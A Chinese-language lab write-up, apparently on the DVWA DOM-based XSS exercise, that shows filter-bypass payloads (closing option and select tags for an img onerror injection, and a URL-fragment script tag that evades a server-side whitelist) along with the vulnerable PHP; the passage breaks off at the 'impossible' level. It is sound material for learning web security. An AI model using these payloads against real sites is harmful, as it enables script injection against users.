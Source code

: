 **stripos():** 返回字符串在另一个字符串中第一次出现的位置。

1.此处过滤了```<script>```标签，所以我们可以使用：```<img src=1 onerror=alert('oh')>```来替代。

[![rpFCoF.md.png](https://s3.ax1x.com/2020/12/08/rpFCoF.md.png)](https://imgchr.com/i/rpFCoF)

发现语句被插入到了values值中，并没有插入到option标签中，失败了。

2.闭合前面的option标签

```default=></option><img src=1 onerror=alert('oh')>```

[![rpARG4.md.png](https://s3.ax1x.com/2020/12/08/rpARG4.md.png)](https://imgchr.com/i/rpARG4)

发现只有>被插入到了option标签中。因为```</option>```闭合了option标签，使用img标签并没有插入。

3.继续构造语句去闭合select标签，制造出img独立语句，闭合```</option></select>```标签构造XSS事件

payload：

```
?default=></script></select><img src=1 onerror='alert('oh')'>
```

[![rpVOKA.png](https://s3.ax1x.com/2020/12/08/rpVOKA.png)](https://imgchr.com/i/rpVOKA)

##### high

```
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {

    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
}

?> 
```

default=只允许French，English，German，Spanish这几个字符串，否则会直接跳转到?default=English。

payload:

```
?default=English#<script>alert('oh')</script>
```

原理：由于form表单提交的数据需要经过js过滤，所以注释部分的JavaScript代码不会被传到服务器端（也就符合了白名单的要求）从而只在客户端显示。

##### impossible

```